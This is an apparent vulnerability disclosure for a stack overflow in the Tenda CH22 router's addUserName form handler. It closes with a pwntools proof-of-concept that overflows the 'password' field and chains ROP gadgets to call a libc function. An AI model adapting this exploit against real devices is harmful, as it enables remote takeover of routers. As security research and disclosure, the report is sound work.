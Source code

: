 # A remote code execution vulnerability in the router CH22 V1.0.0.1 manufactured by Shenzhen Jixiangtengda Technology Co., Ltd.
Router firmware download link: [https://tenda.com.cn/material/show/101367](https://tenda.com.cn/material/show/101367)
Vulnerability URL: [http://192.168.100.166/goform/addUserName](http://192.168.100.166/goform/addUserName)

## Vulnerability Analysis.
The vulnerability occurs in the `formaddUserName` function.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE1.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE2.png)
The program retrieves the user input parameter `"password"` but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or potential exploitation.  
Cross-referencing the function `formaddUserName` with the route `addUserName`, line 105. The vulnerability occurs in the `formSafeEmailFilter` function.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE3.png)
Cross-referencing further to `sub_64EAC`, paying attention to lines 44 and 47.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE4.png)
Yes, based on the cross-referencing, the vulnerability occurs on the page path `goform/addUserName`.

payload:
```
import requests
from pwn import *
addr=0x006B32C

libc=ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
base=0xf6645000
system_addr = base + system_offset
cmd = b"Hello,world\x00"
puts = base+libc.sym['puts']

move_r0=base+0x00040cb8
r3_pop=base+0x00018298


url = "http://192.168.100.166/goform/addUserName"
payload = {
      'password':cyclic(2123)+p32(r3_pop)+p32(puts)+p32(move_r0)+cmd

    }
res = requests.post(url=url,data=payload)
```
